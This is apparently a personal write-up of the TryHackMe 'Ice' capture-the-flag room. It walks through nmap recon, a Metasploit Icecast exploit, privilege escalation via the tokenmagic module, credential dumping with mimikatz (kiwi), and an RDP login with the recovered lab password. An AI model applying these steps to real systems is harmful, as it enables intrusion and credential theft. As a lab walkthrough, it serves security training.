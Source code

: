 ```yaml
---
title: THM | Ice |  02-09-2023
updated: 2023-09-03 15:18:29Z
created: 2023-09-02 16:57:34Z
categories: [Execute Code Overflow]
tags: [Kiwi, Metasploit] 
---
```



![76b8f006f45c4a2a4e2048b55dc3b88c.png](/Tryhackme/Ice/_resources/76b8f006f45c4a2a4e2048b55dc3b88c.png)

Tryhackme Room: [https://tryhackme.com/room/ice](https://tryhackme.com/room/ice)

Date: 02/09/2023
# Recon
## Nmap
```
└─$ nmap -Pn -A 10.10.144.12                             
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-02 12:59 EDT
Nmap scan report for 10.10.144.12
Host is up (0.19s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open                     Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: DARK-PC
|   NetBIOS_Domain_Name: DARK-PC
|   NetBIOS_Computer_Name: DARK-PC
|   DNS_Domain_Name: Dark-PC
|   DNS_Computer_Name: Dark-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2023-09-02T17:01:01+00:00
|_ssl-date: 2023-09-02T17:01:07+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Dark-PC
| Not valid before: 2023-09-01T15:24:49
|_Not valid after:  2024-03-02T15:24:49
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Service Unavailable
|_http-server-header: Microsoft-HTTPAPI/2.0
8000/tcp  open  http               Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:46:fb:ab:b2:7f (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-09-02T12:01:01-05:00
|_clock-skew: mean: 59m59s, deviation: 2h14m10s, median: 0s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-09-02T17:01:01
|_  start_date: 2023-09-02T15:24:47
```

## Port 8000 (HTTP)

From our Nmap result we know it's running interesting service called `Icecast streaming media server`. We will look at [https://www.cvedetails.com](https://www.cvedetails.com) for searching exploit and cve details as instructed in the tryhackme room.
![1f4c7227daf68f4202a977728326634b.png](/Tryhackme/Ice/_resources/1f4c7227daf68f4202a977728326634b.png)

As metasploit module is available for exploiting this cve, we will open msfconsole:
![4dc81310d946de84f8b3f28ba5bebf69.png](/Tryhackme/Ice/_resources/4dc81310d946de84f8b3f28ba5bebf69.png)

# Gain Access
We will use the following modules and set the required options: 
```console
msf6 > use exploit/windows/http/icecast_header 
```
 Once we run the exploit, we got the meterpreter session:
 ![de538f635a8845b2d0951ad2f7afa50f.png](/Tryhackme/Ice/_resources/de538f635a8845b2d0951ad2f7afa50f.png)
 
 # Privilege Escalation

Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`.

![a8a80cc70a9db2aa948e09056b1fc475.png](/Tryhackme/Ice/_resources/a8a80cc70a9db2aa948e09056b1fc475.png)

We tried `exploit/windows/local/bypassuac_eventvwr` as suggested in tryhackme room, but was unsuccessful in creating session.

![4d49d09377e5ac133ac0f1d665b1a5b0.png](/Tryhackme/Ice/_resources/4d49d09377e5ac133ac0f1d665b1a5b0.png)

Then we tried with `exploit/windows/local/tokenmagic` module and succeeded to gain meterpreter session with elevated privilege.

![599391416afd9df5d571ad35942e4f0f.png](/Tryhackme/Ice/_resources/599391416afd9df5d571ad35942e4f0f.png)

## Get credentials with mimikatz

Prior to further action, we need to move to a process that actually has the permissions that we need to interact with the lsass service
So, we will migrate to spoolsv.exe as it meet our needs perfectly.

![c43c7426c8d7fb3d9258fa13dfb98b43.png](/Tryhackme/Ice/_resources/c43c7426c8d7fb3d9258fa13dfb98b43.png)

Next, we will run  `load kiwi` and execute the following command:
![5483640d6794272c3c139015fe6f3efa.png](/Tryhackme/Ice/_resources/5483640d6794272c3c139015fe6f3efa.png)

In the above image, we can see the see the clear test password for `Dark`

Next we will dump hashes with the following command:
![f856f36318a00959294d5463e059eedb.png](/Tryhackme/Ice/_resources/f856f36318a00959294d5463e059eedb.png)

Next, We will RDP to the Dark account with `xfreerdp`
```
xfreerdp /u:Dark /p:Password01! /v:10.10.199.95:3389 
```
![eea4a25b8767e11ffdd7498f153d44a9.png](/Tryhackme/Ice/_resources/eea4a25b8767e11ffdd7498f153d44a9.png)

This conclude the challenge of this room. Hope you enjoyed!
